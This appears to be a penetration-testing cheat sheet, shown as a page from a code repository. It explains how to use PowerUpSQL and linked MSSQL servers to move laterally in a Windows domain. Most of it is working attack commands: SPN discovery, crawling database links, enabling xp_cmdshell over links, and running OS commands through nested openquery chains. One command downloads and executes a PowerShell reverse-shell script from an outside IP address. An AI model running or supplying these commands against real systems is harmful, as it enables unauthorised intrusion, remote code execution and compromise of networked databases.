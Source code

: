 MSSQL servers are generally deployed in a Windows Domain. SQL servers can be very good options for lateral movement as domain users can be mapped to database roles. For MSSQL and PowerShell magic we will use PowerUpSQL. https://github.com/NetSPI/PowerUpSQL

Enumeration 

```powershell
#Discovery (SPN Scanning)
Get-SQLInstanceDomain


#Check Accessibility
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose 


#Gather Information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

Database Links: A database link allows a SQL server to access external data sources like other SQL servers and OLE DB data sources. In case of database links between SQL servers it is possible to execute stored procedures. Database links work even across forest trusts.


Search for database links.

```powershell
#Look for links to remote servers
Get-SQLServerLink -Instance mssql -Verbose

Or

select * from master..sysservers


#Openquery() function can be used to run queries on a linked database
select * from openquery("sql1",'select * from master..sysservers')


#Enumerating Database Links
Get-SQLServerLinkCrawl -Instance mssql -Verbose

or

#Openquery queries can be chained to access links within links (nested  links)
select * from openquery("sql1",'select * from openquery("mgmt",''select * from master..sysservers'')')
```


Executing Commands.

```powershell
#On the target server either xp_cmdshell should already be enabled
#Or if rpcout is enabled (disabled by default) xp_cmdshell can be enabled using:
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "external-sql"


#Executing Commands
Get-SQLServerLinkCrawl -Instance mssql -Query "exec master..xp_cmdshell 'whoami'" 

Get-SQLServerLinkCrawl -Instance mssql.abc.example.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http:// 172.1.1.30/Invoke-PowerShellTcp.ps1'')"'

or

#From the initial SQL server, OS commands can be executed using nested link queries:
select * from openquery("sql1",'select * from openquery("mgmt",''select * from openquery("external-sql.eu.external.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')


```
